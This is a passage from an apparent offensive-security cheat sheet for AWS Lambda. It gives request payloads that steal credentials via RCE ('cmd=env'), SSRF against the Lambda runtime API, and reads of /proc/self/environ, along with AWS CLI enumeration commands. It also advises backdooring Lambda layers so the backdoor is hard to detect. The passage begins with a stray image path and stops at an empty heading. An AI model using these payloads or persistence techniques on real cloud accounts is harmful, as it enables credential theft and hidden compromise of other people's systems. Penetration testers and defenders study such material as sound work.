 These keys can be gathered using SSRF, RCE and so on.

### Getting credentials using RCE

```
https://apigateway/prod/system?cmd=env
```

### Getting credentials using SSRF

```
https://apigateway/prod/example?url=http://localhost:9001/2018-06-01/runtime/invocation/next
```

### Getting credentials using SSRF and wrappers

```
https://apigateway/prod/system?cmd=file:///proc/self/environ
```

### Getting credentials from lambda enviroment variables (cli)

```
aws lambda get-function --function-name NAME
```

* It's important to enumerate the functions first with `aws lambda list-functions`

## Persistence
* If the user has sufficient rights in the lambda function, its possible to download the source code, add a backdoor to it and upload. Everytime the lambda executes, the malicious code will also execute.
* Always try to update the code of layers (depedencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.

### Checking which user is executing  

```
aws sts get-caller-identity
```

### Checking all managed policies attached to the user

```
aws iam list-attached-user-policies --user-name user_name
```

### Checking informations about a specific policy

```
aws iam get-policy-version --policy-arn arn --version-id ID
```

### Listing all lambda functions
